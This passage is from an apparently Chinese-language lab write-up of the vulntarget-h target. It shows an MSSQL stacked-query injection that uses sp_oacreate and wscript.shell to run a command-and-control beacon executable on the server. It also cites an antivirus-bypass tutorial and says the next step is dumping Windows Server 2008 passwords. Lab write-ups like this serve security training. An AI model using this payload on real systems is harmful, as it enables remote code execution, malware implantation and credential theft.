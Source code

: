 > ```bash
> http://192.168.1.99/?user_id=1;
> declare @o int;
> exec sp_oacreate 'wscript.shell',@o out;
> exec sp_oamethod @o,'run',null,'sqlps C:\inetpub\edrfgyhujikopl\beacona.exe';
> ```
> 
> + 上线成功。
> 
> ![Screenshot_2022-07-01_04-02-11.png](../images/vulntarget-h-WriteUp/Screenshot_2022-07-01_04-02-11.png)
> 
> > 上面教程参考于：[MSSQL注入绕过360执行命令](https://macchiato.ink/web/web_security/mssql_bypass/#0x03-%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87)
> 
> + 抓取Windows Server 2008密码。
> 